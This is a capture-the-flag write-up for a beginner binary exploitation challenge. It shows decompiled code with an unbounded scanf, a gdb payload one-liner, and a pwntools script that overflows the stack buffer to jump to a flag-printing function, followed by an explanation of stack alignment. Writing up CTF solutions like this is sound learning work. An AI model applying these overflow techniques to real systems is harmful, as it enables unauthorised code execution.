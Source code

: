 ## Skills required: Beginner pwn skills, but with a hard twist

I used [gdb](https://manpages.org/gdb) and [IDA](https://hex-rays.com/ida-free/) during the CTF. I solved it by making a desperate move - bruteforcing.

## Solution:

I used IDA for static analysis. With IDA's *generate pseudocode* functionality, I could trace into the `check_fo2` function (which normally returns to `0x0040142c`):

```c
__int64 __fastcall check_fo2(int a1)
{
  char v2[112]; // [rsp+10h] [rbp-70h] BYREF

  if ( a1 )
  {
    if ( a1 < 0 )
    {
      puts("Negative number not possible. Please input your email for us to reach out to you:");
      __isoc99_scanf("%s", v2);
    }
  }
  else
  {
    puts("WARNING: Diving without oxygen in mixture will lead to death!");
    printf("A minimum Oxygen percentage of 21%% is advised\n");
  }
  return abs32(a1);
}
```

There's also `print_flag` at `0x00401343`:
```
int print_flag()
{
  char v1[104]; // [rsp+0h] [rbp-70h] BYREF
  FILE *v2; // [rsp+68h] [rbp-8h]

  v2 = fopen("./flag.txt", "r");
  if ( !v2 )
    return puts("file does not exist");
  __isoc99_fscanf(v2, "%99s", v1);
  return printf("%s", v1);
}
```

This seemed like a basic return address rewrite, so I used gdb to inspect the stack (I'll be using pwndbg for my first time for this writeup):

![image](https://user-images.githubusercontent.com/114584910/195996854-6953ba5b-6d9d-47eb-82d4-c7d4e61fd5e6.png)

The ... is messed up, but we can see the return address at `...dd38`, which means I'll need 16\*7+8 = 120 characters before the new return address.

I used the following gdb command to supply non-typeable ASCII characters: `run <<< $(python3 -c 'print("-1\n"+"A"*120+"\x43\x13\x40\x00")')` (I still have to [look it up](https://reverseengineering.stackexchange.com/questions/18295/basic-question-how-to-input-non-printable-hex-values-in-gdb-nc))

![image](https://user-images.githubusercontent.com/114584910/195998067-bacc638b-8cb5-4505-9b9d-fdbbdc0ed046.png)

pwndbg shows the new return address! I'm seeing why people are saying it's a cool add-on to gdb (besides the beautiful hexdump). Let's continue.

![image](https://user-images.githubusercontent.com/114584910/195998268-fac33d16-878f-4136-898d-308a94e193d1.png)

Uh-oh, a SIGSEGV, Segmentation fault occurred saying `vfscanf-internal.c: No such file or directory.`.

Sadly, search engines didn't turn up anything relevant to this case.
Worrying it's a technical issue, a couple of contestants consulted the organizers and they double checked the exploit is still working on the server.

I tried it on the server using this Python script with [pwntools](https://docs.pwntools.com/en/stable/), which is my first time:

```py
from pwn import *

conn = remote('chall.rumble.host',5415)
conn.sendlineafter(b'Oxygen in mix: ', b'-1')
conn.recvuntil(b'you:', drop=True)
conn.sendline(b"A"*112+b"B"*8+p32(0x00401343))
conn.interactive()
```

It, too, returned Segmentation fault. I was stumped on this for quite some time, then out of pure desperation, I tried a few nearby addresses and eventually `0x00401348` worked. I didn't understand why but a flag is a flag :P

### Post-event

I was surprised by the +5 offset required by the challenge - it isn't even a multiple of 4! (*totally newbie opinion*)

After the event, it was revealed to us that the stack was not properly aligned and it can be solved with a `ret` gadget.

*Wait what?*

You can execute a ret and then the print_flag. By this way, the stack has the needed alignment and no segfault occurs

I wasn't the only one who didn't understand my own exploit - and I got a sublime explanation:

- 0x00401348 skips the first `push RBP`, ignoring stack misalignments
- libc at times needs 16-bit stack alignment

Here are some pages that could be useful for learning, but I strongly feel that I am not at that level, in particular I have no knowledge or experience for ROP and a general poor understanding of assembly:
- [Stack overflow page 1](https://stackoverflow.com/questions/672461/what-is-stack-alignment)
- [Stack overflow page 2](https://stackoverflow.com/questions/4175281/what-does-it-mean-to-align-the-stack)
- [Basic ROP techniques](https://trustfoundry.net/2019/07/18/basic-rop-techniques-and-tricks/)

P.S. Upon checking other messages:

- "always happens when you overwrite the return address to jump to a function that relies on stack alignment"
- "libc uses movaps liberally which unfortunately requires an aligned stack"

Damn how I wish I knew to read the post-event messages for the last year during the CTF.
